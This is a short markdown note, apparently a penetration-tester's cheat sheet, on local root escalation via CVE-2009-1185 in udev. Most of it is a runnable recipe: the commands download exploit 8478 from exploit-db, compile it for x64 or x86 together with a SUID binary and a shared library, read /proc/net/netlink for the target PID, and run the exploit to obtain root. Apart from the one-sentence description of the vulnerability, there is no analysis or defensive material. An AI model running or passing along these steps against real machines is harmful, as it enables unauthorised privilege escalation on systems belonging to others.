 # CVE-2009-1185-UDEV for x86


#PRIVESC


Udev before 1.4.1 does not verify whether a NETLINK message originates from kernel space, which allows local users to gain privileges by sending a NETLINK message from user space.

################Code Recap:


#For x64


wget https://www.exploit-db.com/raw/8478


gcc udev.c -o udev -m64


gcc -o program.o -c program.c -fPIC -m64


gcc -o suid suid.c -m64


gcc -shared -Wl,-soname,libno_ex.so.1 -o libno_ex.so.1.0 program.o -nostartfiles -m64



#For x86


wget https://www.exploit-db.com/raw/8478


gcc udev.c -o udev -m32


gcc -o program.o -c program.c -fPIC -m32


gcc -o suid suid.c -m32


gcc -shared -Wl,-soname,libno_ex.so.1 -o libno_ex.so.1.0 program.o -nostartfiles -m32



#The exploit mentions that it runs against Netlink. To find our Netlink number we type: cat /proc/net/netlink. 
cat /proc/net/netlink

#What we're looking for is the PID in front of the group "ffffffff". In this case, my PID displays 564

./udev 564

#ROOT ! (proof.png)
